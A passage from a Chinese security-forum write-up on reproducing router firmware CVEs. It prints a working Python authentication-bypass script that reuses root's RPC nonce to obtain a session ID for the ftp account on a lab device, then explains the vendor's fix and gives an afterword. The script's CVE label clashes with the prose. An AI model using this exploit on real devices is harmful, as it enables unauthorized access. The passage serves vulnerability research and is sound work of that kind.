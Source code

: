 ![](https://bbs.kanxue.com/upload/attach/202411/802108_BGURUJPG3BU7GDE.png)

```
#CVE-2024-45261.py
import requests
import hashlib
 
requests.packages.urllib3.disable_warnings()
s = requests.Session()
s.verify = False
s.keep_alive = True
s.headers.update({'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'})
 
url = "http://192.168.122.130/rpc"
j = {"jsonrpc":"2.0","id":1,"method":"challenge","params":{"username":"root"}}
r = s.post(url, json=j)
if r.status_code == 200 and "Access denied" not in r.text and "nonce" in r.json()['result']:
    nonce = r.json()['result']['nonce']
    data = f'ftp:*:{nonce}'
    hash = hashlib.md5(data.encode()).hexdigest()
    j = {"jsonrpc":"2.0","id":1,"method":"login","params":{"username":"ftp","hash":hash}}
    r = s.post(url, json=j)
    try:
        sid = r.json()['result']['sid']
    except Exception:
        pass
    if sid:
         print("[*] Successfully generated a non-privileged SID for the \033[1mftp\033[0m account: \033[1m%s\033[0m" %sid)
    else:
        print("[*] Error! Could not generate a SID!")
else:
    print("[*] Could not get a nonce from the target device! Try again later!")
```

最后看下当前最新的 v4.6.6 版本中是怎么修复的，可以看到 nonce 和 username 对应关系有了，root 外的用户无法再借助 root 通过 rpc - challenge 请求生成的 nonce 来绕过登录了。

![](https://bbs.kanxue.com/upload/attach/202411/802108_S7GRV7DS6RBAYGJ.png)

顺便再看下 CVE-2024-45261 即任意 aclgroup 的 sid 任意文件下载漏洞是怎么修复的，可以看到调用了之前说到的 rpc.access 方法，之前有提到里面有对 sid 的 aclgroup 进行检查。

![](https://bbs.kanxue.com/upload/attach/202411/802108_RR8GHH4T57SNAW3.png)

**后记**
======

写完此篇文章一个感受是 “纸上得来终觉浅，绝知此事要躬行”，无论是固件仿真，还是自己去找一些授权后注入漏洞，或者是复现授权相关 CVE，都是看着觉得也不难，但动手复现起来真是一个又一个坑。看到别人做得不太好的，要摸索下怎么做得更优雅些；碰到别人没说的，要自己趟一遍水才知道哪些没说，再想各种办法去补全；碰到别人说得有问题的就更惨了，各种怀疑困惑后，要一步步分析定位到原因再去解决给出正确答案。

[[培训] 内核驱动高级班，冲击 BAT 一流互联网大厂工作，每周日 13:00-18:00 直播授课](https://www.kanxue.com/book-section_list-173.htm)

[#安全研究](forum-128-1-167.htm) [#固件分析](forum-128-1-170.htm) [#漏洞分析](forum-128-1-171.htm) [#家用设备](forum-128-1-173.htm)